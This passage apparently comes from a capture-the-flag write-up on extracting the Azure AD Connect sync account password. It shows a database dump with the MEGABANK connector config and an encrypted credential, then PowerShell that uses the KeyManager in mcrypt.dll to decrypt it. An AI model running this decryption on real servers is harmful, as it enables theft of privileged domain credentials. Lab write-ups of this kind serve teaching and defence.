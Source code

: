 ```
  <parameter name="ADS_GROUP_TYPE_UNIVERSAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000008</parameter>
  <parameter name="ADS_GROUP_TYPE_SECURITY_ENABLED" type="string" use="global" dataType="String" intrinsic="1">0x80000000</parameter>
  <parameter name="Forest.FQDN" type="string" use="global" dataType="String" intrinsic="1">MEGABANK.LOCAL</parameter>
  <parameter name="Forest.LDAP" type="string" use="global" dataType="String" intrinsic="1">DC=MEGABANK,DC=LOCAL</parameter>
  <parameter name="Forest.Netbios" type="string" use="global" dataType="String" intrinsic="1">MEGABANK</parameter>
</parameter-values>
 <password-hash-sync-config>
            <enabled>1</enabled>
            <target>{B891884F-051E-4A83-95AF-2544101C9083}</target>
         </password-hash-sync-config>
</adma-configuration>
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g95aWEcUSzl7mTXwR4Pe3uvsf2P8Oafih7cjjsubFxqBioXBUIuP+BPQCETPAtccl7BNRxKb2aGQ=

(1 rows affected)

```

The encrypted password is there at the bottom, and the config is at the top.

#### Decrypt

The third section of the script decrypts. First it goes through a series of hoops to get the decryption object from the KeyManager:

```

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)

```

Now it decrypts:

```

$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

```
